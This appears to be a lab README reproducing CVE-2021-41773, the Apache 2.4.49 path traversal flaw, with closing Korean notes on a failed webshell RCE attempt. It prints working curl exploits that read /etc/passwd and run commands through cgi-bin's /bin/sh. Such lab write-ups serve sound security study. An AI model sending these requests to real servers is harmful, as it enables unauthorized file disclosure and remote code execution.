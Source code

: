 # Path traversal and file disclosure vulnerability in Apache HTTP Server 2.4.49 (CVE-2021-41773)

The Apache HTTP Server Project is an effort to develop and maintain an open-source HTTP server for modern operating systems including UNIX and Windows.

A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49. An attacker could use a path traversal attack to map URLs to files outside the expected document root.

If files outside of these directories are not protected by the usual default configuration "require all denied", these requests can succeed. If CGI scripts are also enabled for these aliased pathes, this could allow for remote code execution.

References:

- https://httpd.apache.org/security/vulnerabilities_24.html
- https://twitter.com/ptswarm/status/1445376079548624899
- https://twitter.com/HackerGautam/status/1445412108863041544
- https://twitter.com/snyff/status/1445565903161102344

## Vulnerable environment

Execute following commands to start a vulnerable Apache HTTP Server:

```
docker compose build
docker compose up -d
```

After the server is started, you can see the default page which says `It works!` of Apache HTTP Server through `http://your-ip:8080`.

## Exploit

A simple CURL command to reproduce the vulnerability (Note that `/icons/` must be a existing directory):

```
curl -v --path-as-is http://your-ip:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

The `/etc/passwd` is disclosured successfully:

![](1.png)

With the mods cgi or cgid enabled on the server, this path traversal vulnerability would allow arbitrary command execution:

```
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```

![](2.png)


## 추가 실습 기록
- 웹쉘을 통한 RCE 시도 진행 (exploit.sh)
- 그러나 실제 환경에서는 내부 서버 설정 문제로 RCE는 성공하지 않음
- 이 과정에서 서버 내부 파일(Path Traversal) 접근은 가능했음을 확인
